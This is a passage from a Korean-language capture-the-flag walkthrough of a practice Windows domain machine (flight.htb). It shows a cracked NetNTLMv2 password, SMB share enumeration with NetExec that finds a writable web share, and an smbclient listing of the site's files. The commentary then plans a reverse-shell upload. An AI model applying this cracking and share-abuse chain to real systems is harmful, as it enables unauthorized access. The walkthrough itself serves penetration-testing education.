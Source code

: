 ```zsh
Press 'q' or Ctrl-C to abort, almost any other key for status
Tikkycoll_431012284 (c.bum)     
1g 0:00:00:06 DONE (2025-09-01 07:13) 0.1540g/s 1623Kp/s 1623Kc/s 1623KC/s TinyMutt69..Tiffani29
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```

### Check SMB Permission of `C.Bum`

- `C.Bum` 계정은 `Web` 쉐어에 대해 쓰기(WRITE) 권한이 있다.  

```zsh
└─# nxc smb 10.129.124.131 -u 'C.Bum' -p 'Tikkycoll_431012284' --shares
SMB         10.129.124.131  445    G0               [*] Windows 10 / Server 2019 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB         10.129.124.131  445    G0               [+] flight.htb\C.Bum:Tikkycoll_431012284 
SMB         10.129.124.131  445    G0               [*] Enumerated shares
SMB         10.129.124.131  445    G0               Share           Permissions     Remark
SMB         10.129.124.131  445    G0               -----           -----------     ------
SMB         10.129.124.131  445    G0               ADMIN$                          Remote Admin
SMB         10.129.124.131  445    G0               C$                              Default share
SMB         10.129.124.131  445    G0               IPC$            READ            Remote IPC
SMB         10.129.124.131  445    G0               NETLOGON        READ            Logon server share 
SMB         10.129.124.131  445    G0               Shared          READ,WRITE      
SMB         10.129.124.131  445    G0               SYSVOL          READ            Logon server share 
SMB         10.129.124.131  445    G0               Users           READ            
SMB         10.129.124.131  445    G0               Web             READ,WRITE
```

- `Web` 쉐어로 접근하면, 2개의 도메인 폴더를 확인할 수 있다.  
- 이 때, `\school.flight.htb\index.php`는 앞서 살펴본 `index.php` 파일에 해당한다.  
- `school` 서브도메인에서 PHP 서버가 동작하고 있음을 확인하였고, 해당 폴더에 파일 쓰기 권한이 존재한다.  
- 따라서, 악성 페이로드(리버스쉘)가 저장된 파일을 업로드하여 RCE 명령 수행이 가능한지 테스트해 볼 필요가 있다.  

```zsh
└─# smbclient -U 'C.Bum' //10.129.124.131/Web                      
Password for [WORKGROUP\C.Bum]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Sep  1 15:08:00 2025
  ..                                  D        0  Mon Sep  1 15:08:00 2025
  flight.htb                          D        0  Mon Sep  1 15:07:00 2025
  school.flight.htb                   D        0  Mon Sep  1 15:07:00 2025
cd
                5056511 blocks of size 4096. 1229930 blocks available
smb: \> cd school.flight.htb
smb: \school.flight.htb\> ls
  .                                   D        0  Mon Sep  1 15:07:00 2025
  ..                                  D        0  Mon Sep  1 15:07:00 2025
  about.html                          A     1689  Mon Oct 24 23:54:45 2022
  blog.html                           A     3618  Mon Oct 24 23:53:59 2022
  home.html                           A     2683  Mon Oct 24 23:56:58 2022
  images                              D        0  Mon Sep  1 15:07:00 2025
  index.php                           A     2092  Thu Oct 27 03:59:25 2022
  lfi.html                            A      179  Thu Oct 27 03:55:16 2022
  styles                              D        0  Mon Sep  1 15:07:00 2025
```
